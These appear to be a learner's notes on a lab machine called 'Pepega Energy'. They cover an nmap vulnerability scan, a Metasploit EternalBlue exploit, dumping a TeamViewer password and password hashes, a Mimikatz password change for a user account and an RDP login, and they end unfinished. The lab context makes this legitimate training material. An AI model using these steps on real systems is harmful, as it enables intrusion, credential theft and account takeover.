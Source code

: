 # Pepega Energy Notes
___

# My IP = 10.8.19.163

# Target IP = 10.10.131.74
___

---
# NMAP Sc

> nmap -Pn -n -vv -sC -sV -T5 --script vuln 10.10.131.74 | tee pepega-energy.nmap

Results : >"cat pepega-energy.nmap | grep 'open'"

	135/tcp   open     msrpc              syn-ack     Microsoft Windows RPC
	139/tcp   open     netbios-ssn        syn-ack     Microsoft Windows netbios-ssn
	445/tcp   open     microsoft-ds       syn-ack     Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
	3389/tcp  open     ssl/ms-wbt-server? syn-ack
	5357/tcp  open     http               syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	9001/tcp  open     tcpwrapped         syn-ack
	49152/tcp open     msrpc              syn-ack     Microsoft Windows RPC
	49153/tcp open     msrpc              syn-ack     Microsoft Windows RPC
	49154/tcp open     msrpc              syn-ack     Microsoft Windows RPC
	49155/tcp open     msrpc              syn-ack     Microsoft Windows RPC
	49159/tcp open     msrpc              syn-ack     Microsoft Windows RPC
	49160/tcp open     msrpc              syn-ack     Microsoft Windows RPC

# MS17-010 Samba Remote Code Execution

1. Machine vulnerable. Launching Metasploit for MS17-010 meterpreter shell.

Success! Used > windows/smb/ms17_010_eternalblue

> whoami - NTAUTHORITY

2. Find User and admin flags.

# Upgraded shell to meterpreter shell

1. Backgrounded shell.

2. Searched for shell_to_meterpreter in Metasploit.

3. Set the sessions ID and hit run.

4. Changed to new session.

5. Acquired team viewer password:

> msf5 post(windows/gather/credentials/teamviewer_passwords) > options

Module options (post/windows/gather/credentials/teamviewer_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION                        yes       The session to run this module on.
   WINDOW_TITLE  TeamViewer       no        Specify a title for getting the window handle, e.g. TeamViewer

msf5 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 2
SESSION => 2
msf5 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on PEPEGAENERGY-01


###[+] Found Unattended Password: RedBullEnergyBad

# MEterpreter Hashdump

Cracked User: Timmy  Password: ilovetimmy


# Mimikatz to change Zachary's password

> load kiwi

> run post/windows/gather/smart_hashdump

> password_change -s localhost -u Zachary -n <old hash> -P password123

SUCCESS

#RDP to Zachary

1. Log on. Search Firefox history and files history.

Not there checked video on youtube for writeup.
 
